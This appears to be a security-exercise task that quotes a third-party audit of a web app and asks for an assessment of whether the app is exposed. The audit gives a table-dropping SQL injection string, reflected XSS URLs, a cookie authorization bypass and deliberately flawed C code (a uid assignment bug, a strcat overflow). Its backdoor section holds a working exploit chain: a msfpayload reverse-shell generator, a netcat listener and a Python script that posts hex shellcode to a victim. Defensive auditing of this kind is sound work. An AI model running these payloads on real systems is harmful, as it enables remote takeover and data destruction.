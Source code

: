 # Software Security Audit

## Objective
Someone online has done a software security audit of the source we based out web app on.  In short, they found some major issues.  The report was pulled from a Wordpress blog to out company wiki and is shown below.  Go over the vulnerabilities in the audit and write a detailed report about whether or not your web app is vulnerable to the issues mentioned.  Include details about any mitigations that were taken to prevent the issues mentioned in the audit.  If our web app is vulnerable include details for how could mitigate the attack and a work estimate (guestimate of hours, days, or weeks) of how long it would take to fix the issue(s).

## Web App Vulnerabilities and Exploits

### SQL Injection on Forms
Drop Users table by entering statement below in the "username" field of the login form.  SQL injection appears likely on other forms as well.

`test'; DROP TABLE Users;#`

Note other SQL injections are possible aside from the example above.

### Reflected XSS

The timesheet page takes unsanitized input from the query parameter and embeds it in a hidden html input element, which could result in reflected XSS attacks.

    http://localhost/webapp/timesheet?query=01-02-2014"><script>alert(42);</script>
    
    http://localhost/webapp/timesheet?query=01-02-2014%22%3E%3Cscript%3Ealert%2842%29;%3C/script%3E

### Plaintext Database Password Entries
The MySQL database contains plaintext passwords and other sensitive information.

### Database Dump
Using the libunwind library is used to recover from crashes and dumps the contents of the database on a crash.  Additionally the log_status "feature" (or malware?) causes a crash on average 1/1000 page requests.

    if ((rand() % 1000) == 0) {
        log_stats(stderr, DISPATCH, LOG_LEVEL_DEFAULT);
    }

### Privilige Escalation
The following lines are an accidental or sneaky attempt to make the application run as root.  The if condition actually sets the uid instead of checking it.  A valid check would utilize "==" not "=".
        
	int uid = (int) geteuid();
	if(uid = 0){
		// never run webapp as root, its a security risk
		uid = 1;
	}
	// set uid to non-root user
	setuid(uid);
	seteuid(uid);

### Known Session Identifiers
Cookies utilize poor session management.  Authorization could be bypassed by setting the Cookie "Authorized" field to "yes".  Additionally session names are just the names of user accounts and can be easily guessed by attackers, which could result in privilege escalation attacks.

### Hidden Backdoor
If a POST request is made with the user agent "asn_roodkcab" ("nsa_backdoor" spelled backwards) the string value of the "data" parameter is decoded as ASCII hex to binary and run in executable memory.  This was tested using metasploit to generate a reverse shell payload and sent with a python script to activate remotely.  Sample scripts below.  A demo video of the attack is available [here](https://www.dropbox.com/s/c5z5udh3y384uyu/NCDC2014_Backdoor.mp4).

Generate your shellcode payload.  Sample script to generate payload with metasploit on Kali shown below.  Depending on target machine OS and architecture some changes may need to be made.  This was tested on a target machine running Ubuntu 12.04 LTS 64 bit.

	#!/bin/bash
	clear
	echo -e "Enter attacker machine IP:  \c"
	read IP
	echo -e "Enter port: \c"
	read port
	msfpayload linux/x64/shell_reverse_tcp LHOST=$IP LPORT=$port R | msfencode -b "\x00\x0a\x0b\x0c\x0d" -t c -e x64/xor >> payload
	echo "Finished"
	ls -la payload

On attacking machine setup the reverse shell listener with netcat (set port to the port you want to listen on, example here is port 447):

`run nc -nvvlp 447`

Edit script with the proper IP address or URL of the victim machine and the Hex encode payload you generated in the previous step (note you will need to do some Find/Replace to get it formatted correctly).  Then on the attacking machine run:

	#!/usr/bin/python
	import urllib
	import urllib2
	
	# replace with target machine IP or URL
	url = 'http://192.168.1.154/webapp'
	
	# replace with your target specific shell code
	# note shellcode should be HEX encode without seperating charcters
	values = {'data' : '4831C94881E9F6FFFFFF488D05EFFFFFFF48BBF0C671726F32CBE248315827482DF8FFFFFFE2F49AEF29EB05309488F1987E7727A5835BF2C670CDAF9ACAD5A18EF89405229188DA9E7E77053195AA0F081B53373DCE9706AC4A2AF67A70CD92AF1F5D1C5ACBB1B84F9620387A4204FFC371726F32CBE2'}
	
	headers = { 'User-Agent' : 'asn_roodkcab' }
	
	data = urllib.urlencode(values)
	req = urllib2.Request(url, data, headers)
	response = urllib2.urlopen(req)
	page = response.read()
	
	print page
	
# Buffer Overflows and Memory Leaks
This app makes heavy use of [insecure functions](http://natashenka.ca/wp-content/uploads/2014/01/truebugswait8x11.pdf) that are susceptible to potential buffer overflows from user controlled inputs.  The exploitability of these issues was not explored, but static analysis tools can help to uncover locations of potential issues.

[Coverity with Github integration](https://scan.coverity.com/projects/1311) discovers buffer overflows in the dispatch error message creation code.

    char err[1024] = "No match for ";
    strcat(err, method_str);
    strcat(err, " \"");
    strcat(err, path_info);
    strcat(err, "\"");
    strcat(err, agt);
    error_handler(err);
    
Memory leaks are present all over the application due not properly freeing memory allocations.  These issues could lead to DOS attacks against the application.

